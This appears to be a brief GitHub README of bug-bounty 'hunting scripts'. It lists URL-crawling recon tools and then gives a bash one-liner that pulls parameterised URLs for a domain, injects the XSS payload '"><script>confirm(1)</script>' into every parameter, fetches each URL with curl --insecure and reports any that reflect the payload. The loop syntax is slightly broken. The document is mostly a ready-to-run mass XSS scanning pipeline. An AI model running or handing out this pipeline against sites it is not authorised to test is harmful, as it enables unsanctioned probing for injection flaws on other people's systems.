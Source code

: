 <h1>Some hunting scripts</h1>

## Tools:
https://github.com/tomnomnom/gf
https://github.com/tomnomnom/waybackurls
https://github.com/lc/gau
https://github.com/tomnomnom/qsreplace
https://github.com/projectdiscovery/httpx
https://github.com/tomnomnom/httprobe
https://github.com/tomnomnom/anew

## Find and testing XSS

```bash
python3 paramspider.py -d domain.com
```

### Output file has stored on output/domain.com.txt

```bash
cat jora.com.txt | gf xss | qsreplace '"><script>confirm(1)</script>' | while read host do; do curl --silent --insecure $host | grep -qs "<script>confirm(1)" && echo "[*] XSS HERE $host"; done
```
